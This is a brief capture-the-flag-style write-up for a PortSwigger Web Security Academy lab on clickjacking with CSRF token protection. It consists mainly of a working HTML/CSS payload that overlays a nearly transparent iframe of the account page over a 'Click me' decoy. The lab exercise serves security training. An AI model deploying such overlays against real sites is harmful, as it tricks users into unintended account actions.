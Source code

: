# Lab: Basic clickjacking with CSRF token protection

URL: https://0a5c003804ff43ec8195de2400950057.web-security-academy.net/


We will use the following payload:

```
<style>
    iframe {
        position:relative;
        width: 1000px;
        height: 800px;
        opacity: 0.3%;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 515;
        left:50;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a5c003804ff43ec8195de2400950057.web-security-academy.net/my-account"></iframe>
```

![](./Images/img1.png)